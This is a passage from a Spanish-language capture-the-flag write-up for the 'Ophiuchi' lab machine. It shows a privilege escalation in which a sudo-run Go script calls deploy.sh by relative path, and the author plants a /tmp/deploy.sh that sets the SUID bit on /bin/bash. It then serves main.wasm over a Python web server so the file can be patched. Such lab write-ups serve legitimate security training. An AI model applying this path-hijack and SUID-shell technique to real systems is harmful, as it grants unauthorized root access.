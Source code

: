 Podemos ver si tenemos permiso de modificar el archivo `deploy.sh`

```bash
admin@ophiuchi:/opt/wasm-functions$ cat deploy.sh 
#!/bin/bash

# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
admin@ophiuchi:/opt/wasm-functions$ ls -l deploy.sh 
-rw-r--r-- 1 root root 88 Oct 14  2020 deploy.sh
admin@ophiuchi:/opt/wasm-functions$
```
Despues de ver los permisos que tenemos sobre el archivo, sabemos que no podemos modificarlo pero vimos anteriormente que el script `ìndex.go` nos ejecuta el `deploy.sh` de forma relativa, interesante; entonces yo podria crearme en el directorio `tmp` mi propio archivo `deploy.sh` y copiarme el `main.wasm` ya que me los va a pillar desde alli y se podria tensa la cosa.

```bash
admin@ophiuchi:/opt/wasm-functions$ cd /tmp
admin@ophiuchi:/tmp$ cp /opt/
tomcat/         wasm-functions/ wasmer-go/      
admin@ophiuchi:/tmp$ cp /opt/wasm-functions/main.wasm .
admin@ophiuchi:/tmp$ touch deploy.sh
admin@ophiuchi:/tmp$
```
En `deploy.sh` lo que voy a intentar hacer es que este script me asigne una `suid` a la `bash`, para que como cualquier usuario en el sistema pueda spamear una consola como el propietario de forma temporal.

```bash
#!/bin/bash

chmod 4755 /bin/bash
```
y si intentamos ejecutar nuevamente el `index.go` vemos que nuevamente nos sale.

```bash
admin@ophiuchi:/tmp$ sudo  /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

Entonces quiero pensar que en el archivo `main.wasm` del `index.go` debe existir una condicional que hace que la variable `f` no sea igual a `1` y por ese motivo no entra a la condicion que me ejecute el `deploy.sh`, pero si tratamos de leer el `main.wasm` no podriamos por que no es de un formato legible.

La idea seria convertir el archivo `main.wasm` a un formato textual y hacer poder intentar alterar los valores, para ello podemos usar una herramienta disponible en github:

 * [https://github.com/WebAssembly/wabt](https://github.com/WebAssembly/wabt)

Como la maquina tiene `python3` vamos a abrir un servidor web por el puerto `8000` para traernos el archivo `main.wasm`

```bash
admin@ophiuchi:/tmp$ which python3
/usr/bin/python3
admin@ophiuchi:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.16.4 - - [25/Mar/2023 01:21:42] "GET /main.wasm HTTP/1.1" 200 -
```
